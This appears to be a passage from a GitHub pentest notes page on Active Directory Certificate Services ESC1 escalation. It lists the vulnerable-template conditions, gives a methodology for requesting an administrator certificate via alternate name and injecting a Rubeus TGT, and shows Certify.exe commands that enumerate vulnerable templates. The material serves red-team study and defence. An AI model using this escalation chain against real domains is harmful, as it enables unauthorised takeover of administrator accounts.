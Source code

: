 ## Escalation Scenarios and Domain Persistence

<img src="./assets/8.png" />

### **ESC1**
1. General Requirements >> An EKU that allows authentication
2. [PKINIT] Client Authentication, Smart Card Logon, Any Purpose, or No EKU (i.e., EKU allows auth)
3. The ENROLLEE_SUPPLIES_SUBJECT flag

###  Methodology
> 1. Find vulnerable cert templates, keep note of the Template name
> 2. Request a template with the template name and using altname specify the user you want to attack
> 3. Using openssl generate the pfx from the private key and sign it with a password
> 4. Using Rubeus request a tgt with the admin pfx and inject it into the session 
> 5. Now we will be able to access the shares of the administrator

## Binaries
### 1. Search for vulnerable certificate templates
```powershell
# Certify
# Enumerate the templates
Certify.exe find
Certify.exe find /enrolleeSuppliesSubject

# Enumerate vulnerable templates
Certify.exe find /vulnerable

# Enumerate vulnerable templates using ca
Certify.exe find /vulnerable /ca:dc.theshire.local\theshire-DC-CA
```
